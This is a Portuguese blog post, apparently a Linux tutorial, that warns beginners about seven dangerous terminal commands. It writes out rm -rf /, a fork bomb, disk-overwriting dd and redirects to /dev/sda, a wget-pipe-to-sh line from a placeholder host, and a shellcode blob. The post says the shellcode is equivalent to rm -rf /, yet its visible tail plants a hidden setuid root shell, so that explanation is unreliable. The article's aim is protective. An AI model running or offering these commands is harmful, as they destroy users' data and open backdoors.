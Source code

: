```yaml
---
title: "7 Comandos perigosos"
author: "Nilsonlinux"
output:
 html_document:
   toc: true
   keep_md: yes
categories: Terminal
layout: post
featured_image: /images/linux/7-comandos-danger.png
---
```




## 7 comandos perigosos do Linux que você NUNCA deve executar  ##

Como o número de usuários leigos de Linux vem aumentando com o tempo, acho pertinente alertar as pessoas sobre alguns comandos que podem ser perigosos, tanto para o sistema, quanto para os dados contidos no computador. 

Como o número de usuários leigos de Linux vem aumentando com o tempo, acho pertinente alertar as pessoas sobre alguns comandos que podem ser perigosos, tanto para o sistema, quanto para os dados contidos no computador.

O terminal é uma ferramenta muito poderosa, por conta disso é bom você dominá-lo, ou pelo menos entendê-lo, para evitar problemas no seu sistema baseado em Linux.
 Os grandes problemas que você pode enfrentar usando o terminal de forma indiscriminada normalmente estão atrelados a comandos de sobrescrita de dados, então vamos mostrar alguns aqui que você deve prestar especial atenção quando vir alguém sugerindo que você faça no seu computador com Linux.

Atenção: Você NÃO deve executar nenhum destes comandos no seu computador, isso pode causar danos irreversíveis que nós não nos responsabilizamos, o artigo tem a intenção de ser instrutivo, justamente para evitar este tipo de situação.

1 - ```rm -rf```  

É um comando clássico do do Linux que teoricamente não faz nada de mais, ele serve apenas para apagar arquivos, e é aí que mora o perigo. Dependendo da forma que ele for aplicativo o resultado pode ser muito desagradável, por isso é importante você entender o que os comandos fazem, vamos explicar um pouco melhor neste exemplo:
- rm: comando usado no Linux para deletar arquivos.
- rm -r: o comando deleta pastas recursivamente, mesmo que a pastas esteja vazia.
- rm -f: cUsando este parâmetro, o propriedade de "apenas leitura" que um arquivo tenha é removida sem perguntar, permitindo que o arquivo seja apagado.
- rm -rf / : Usando a combinação dos dois parâmetros com a "/" você diz para o sistema apagar tudo que está no diretório raiz do sistema.
- rm -rf * : Força o apagamento de tudo que está no diretório atual ou no de trabalho, dependendo de onde você estiver.
- rm -rf . : Acrescentando um ponto, você pode apagar também as pastas ocultas, além das normais.

Tome muito cuidado ao executar um comando destes, especialmente se for feito como root ou usando o sudo.

 Tão perigoso que pode ser este comando, que atualmente o Linux se protege contra ele, se você rodá-lo, mesmo com sudo ou como root, ele não vai funcionar, para isso é preciso usar os parâmetros descritos na imagem acima. Da mesma forma que o Linux protege você de destruir o sistema sem querer, ele também permite que você o destrua mediante a ter certeza de que é realmente isso que você quer, curioso, não é?

2 - ```:(){:|:&};:```  

Este comando funciona como uma "Fork Bomb", ele opera definindo uma função chamada ':', que se chama duas vezes, uma vez em primeiro plano e outra em segundo plano, o processo se repete indefinidamente até que o sistema trave.

3 - qualquer comando para > /dev/sda

A forma com que o Linux lê as partições e discos é diferente do Windows, por conta disso, normalmente novatos não conseguem entender em primeira instância como eles são distribuídos. Normalmente a localização dos dispositivos de armazenamento do sistema ficam dentro de /dev, sendo que podem haver vários por ali e normalmente o sda está presente.

O problema do comando acima é que ele redireciona a saída de qualquer comando que seja colocado para o seu bloco de armazenamento, desta foma sobrescrevendo alguns dados e corrompendo outros.

4 - ```mv pasta/diretório /dev/null```  

Eu costumava brincar sobre o /dev/null me referindo a ele como o "buraco negro" do Linux. Tudo que é enviado para ele é perdido "para sempre". Então tome cuidado ao mover qualquer coisa para esta localização. O comando mv serve para mover arquivos ou diretórios para o destino indicado, se este destino for o /dev/null você estará mandando seus arquivos pra Nárnia.

5 - ```wget http://malicious_source -O- | sh```  

Este comando vai aparecer para você instalar alguns programas. O wget é o programa responsável por fazer o download da URL que vem logo após, ele é bem útil para baixar arquivos em geral, o problema está no arquivo que ele baixa e na sequência do comando  que o executa no caso dele ser um shell script. Só baixe arquivos desta forma de fontes que você considera confiáveis e se estiver na dúvida, baixe apenas o arquivo de shell, eliminando qualquer parâmetro que apareça após o link, assim você pode abrir ele em um editor de texto de sua preferência e verificar o que há dentro dele.

6 - ```dd if=/dev/random of=/dev/sda```  

Assim como o ítem 3 da nossa lista, o grande problema aqui é o destino ser o /dev/sda. Tome cuidado. O comando dd pode ser muito útil para copiar arquivos e até mesmo partições inteiras, como no exemplo 6, mas se a saída for um outro disco, tome cuidado, pois o resultado irá sobrepor os dados lá existentes.

7 - Comandos disfarçados

Como eu comentei à princípio, o terminal é uma ferramenta poderosa, se você não dominá-lo, é bom ter cuidado com que você for rodar nele, se o você não fala a língua do terminal, saiba que ele fala muitas outras. O comando abaixo nada mais é do que o comando indicado no primeiro item da nossa lista, só que em forma hexadecimal.

    char esp[] __attribute__ ((section(“.text”))) /* e.s.p release */ = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″ “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″ “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″ “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″ “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″ “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″ “\x6e\x2f\x73\x68\x00\x2d\x63\x00″ “cp -p /bin/sh /tmp/.beyond; chmod 4755 /tmp/.beyond;”;


Ele tem o mesmo propósito do famigerado "rm -rf /", por isso, não rode coisas no terminal que você não sabe para quem servem, existem muito conteúdo grátis a internet para você estudar sobre e até mesmo alguns bons cursos pagos, como é o caso do "Dominando o Terminal" aqui do blog mesmo, mas em linhas gerais, se você evitar colocar comandos que você não sabe para que servem direito, os problemas já serão minimizados. 

Agora espalhe este conhecimento para ajudar mais pessoas a ficarem precavidas sobre estes pequenos percalços da vida computacional.

Fonte; https://www.diolinux.com.br/2017/01/7-comandos-mais-perigosos-linux.html